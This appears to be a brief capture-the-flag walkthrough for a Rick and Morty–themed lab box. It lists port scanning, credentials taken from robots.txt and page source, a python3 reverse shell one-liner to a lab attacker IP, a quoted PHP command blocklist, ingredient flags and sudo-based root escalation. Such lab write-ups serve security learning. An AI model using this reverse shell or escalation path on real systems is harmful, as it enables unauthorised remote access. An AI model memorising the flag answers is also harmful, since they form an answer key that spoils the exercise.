1. nmap --> 2 services --> 22 and 80
2. web --> 
    --> robots.txt --> Wubbalubbadubdub
    --> page source --> username --> `Note to self, remember username! Username: R1ckRul3s`
    --> login --> `R1ckRul3s:Wubbalubbadubdub` --> cmd run on local desktop - `www-data`
        --> ls --> ```Sup3rS3cretPickl3Ingred.txt
                        assets
                        clue.txt
                        denied.php
                        index.html
                        login.php
                        portal.php
                        robots.txt```
        --> cat, more, etc --> not working
        --> less works --> `less Sup3rS3cretPickl3Ingred.txt` --> `mr. meeseek hair`


3. rev shell --> use the python3 to create rev shell --> `export   RHOST="10.14.50.129";export RPORT=1337;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`
        --> portal.php --> `// Cant use cat
      $cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
      if(isset($_POST["command"])) {
        if(contains($_POST["command"], $cmds)) {
          echo "</br><p><u>Command disabled</u> to make it hard for future <b>PICKLEEEE RICCCKKKK</b>.</p><img src='assets/fail.gif'>";`
        --> clue.txt --> `Look around the file system for the other ingredient.` --> cat /home/rick/second ingredients --> `1 jerry tear`

4. linpeas --> `sudo -l` --> `(ALL) NOPASSWD: ALL` --> `sudo su` --> root
    --> /root --> `cat 3rd.txt` --> `3rd ingredients: fleeb juice`